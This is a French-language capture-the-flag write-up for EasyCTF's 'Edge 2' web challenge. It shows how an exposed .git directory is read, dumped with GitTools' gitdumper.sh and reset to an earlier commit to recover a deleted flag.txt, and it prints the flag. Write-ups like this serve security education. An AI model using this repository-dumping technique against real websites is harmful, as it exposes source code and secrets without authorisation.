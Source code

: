 **Web - Edge -2  - 200pts**

![Alt](img/edge-1.png "Edge 1")


Résolution :

Le dossier git à "censé" été sécurisé , voyons cela :

Cependant si on accède directement au fichier on obtient le contenu :

```BASH
http://edge2.web.easyctf.com/.git/logs/HEAD


0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000  clone: from https://github.com/fermayo/hello-world-lamp.git
15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000  commit: Initial.
26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000  commit: Whoops! Remove flag.
6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000  commit: Prevent directory listing.
```

On utilise  [GitTools](https://github.com/internetwache/GitTools) Pour récupérer le contenu

```BASH
./gitdumper.sh http://edge2.web.easyctf.com/.git/ easyctf 
```

On affiche l'historique des commit pour retrouver le fichier contenant le flag :

```BASH
git log

commit 26e35470d38c4d6815bc4426a862d5399f04865c
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:32:09 2017 +0000

    Initial.

commit 15ca375e54f056a576905b41a417b413c57df6eb
Author: Fernando <fermayo@gmail.com>
Date:   Sat Dec 14 12:50:09 2013 -0300

    initial version

commit 8ac4f76df2ce8db696d75f5f146f4047a315af22
Author: Fernando Mayo <fermayo@gmail.com>
Date:   Sat Dec 14 07:36:18 2013 -0800

    Initial commit
(END)
```
On reset sur le commit qui nous intérresse :

```BASH
git reset 26e35470d38c4d6815bc4426a862d5399f04865c

Modifications non indexées après reset :
D css/bootstrap.css
D css/bootstrap.min.css
D flag.txt
D fonts/glyphicons-halflings-regular.eot
D fonts/glyphicons-halflings-regular.svg
D fonts/glyphicons-halflings-regular.ttf
D fonts/glyphicons-halflings-regular.woff
D fonts/glyphicons-halflings-regular.woff2
D js/bootstrap.js
D js/bootstrap.min.js
D js/jquery.js

```

```BASH
git status

Sur la branche master
Votre branche est en avance sur 'origin/master' de 1 commit.

  supprimé :        css/bootstrap.css
  supprimé :        css/bootstrap.min.css
  supprimé :        flag.txt
  supprimé :        fonts/glyphicons-halflings-regular.eot
  supprimé :        fonts/glyphicons-halflings-regular.svg
  supprimé :        fonts/glyphicons-halflings-regular.ttf
  supprimé :        fonts/glyphicons-halflings-regular.woff
  supprimé :        fonts/glyphicons-halflings-regular.woff2
  supprimé :        js/bootstrap.js
  supprimé :        js/bootstrap.min.js
  supprimé :        js/jquery.js
```

On récupère notre fichier flag.txt

```BASH
git checkout flag.txt
```

On affiche le flag :

```BASH
cat flag.txt 

easyctf{hiding_the_problem_doesn't_mean_it's_gone!}
```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
